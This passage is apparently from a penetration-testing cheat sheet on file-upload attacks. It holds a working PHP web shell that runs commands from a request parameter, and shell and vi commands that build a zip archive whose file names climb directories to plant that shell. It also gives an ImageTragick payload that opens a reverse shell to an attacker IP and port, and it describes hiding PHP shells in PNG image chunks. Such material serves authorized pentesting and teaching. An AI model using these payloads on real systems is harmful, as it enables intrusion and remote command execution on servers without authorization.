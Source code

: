 **Abusing compression for file spraying**

For further details **check the original post in**: [https://blog.silentsignal.eu/2014/01/31/file-upload-unzip/](https://blog.silentsignal.eu/2014/01/31/file-upload-unzip/)

1.  **Creating a PHP Shell**: PHP code is written to execute commands passed through the `$_REQUEST` variable.

    ```php
    <?php 
    if(isset($_REQUEST['cmd'])){
        $cmd = ($_REQUEST['cmd']);
        system($cmd);
    }?>
    ```
2.  **File Spraying and Compressed File Creation**: Multiple files are created and a zip archive is assembled containing these files.

    ```bash
    root@s2crew:/tmp# for i in `seq 1 10`;do FILE=$FILE"xxA"; cp simple-backdoor.php $FILE"cmd.php";done
    root@s2crew:/tmp# zip cmd.zip xx*.php
    ```
3.  **Modification with a Hex Editor or vi**: The names of the files inside the zip are altered using vi or a hex editor, changing "xxA" to "../" to traverse directories.

    ```bash
    :set modifiable
    :%s/xxA/..\//g
    :x!
    ```

## ImageTragic

Upload this content with an image extension to exploit the vulnerability **(ImageMagick , 7.0.1-1)** (form the [exploit](https://www.exploit-db.com/exploits/39767))

```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://127.0.0.1/test.jpg"|bash -i >& /dev/tcp/attacker-ip/attacker-port 0>&1|touch "hello)'
pop graphic-context
```

## Embedding PHP Shell on PNG

Embedding a PHP shell in the IDAT chunk of a PNG file can effectively bypass certain image processing operations. The functions `imagecopyresized` and `imagecopyresampled` from PHP-GD are particularly relevant in this context, as they are commonly used for resizing and resampling images, respectively. The ability of the embedded PHP shell to remain unaffected by these operations is a significant advantage for certain use cases.

A detailed exploration of this technique, including its methodology and potential applications, is provided in the following article: ["Encoding Web Shells in PNG IDAT chunks"](https://www.idontplaydarts.com/2012/06/encoding-web-shells-in-png-idat-chunks/). This resource offers a comprehensive understanding of the process and its implications.
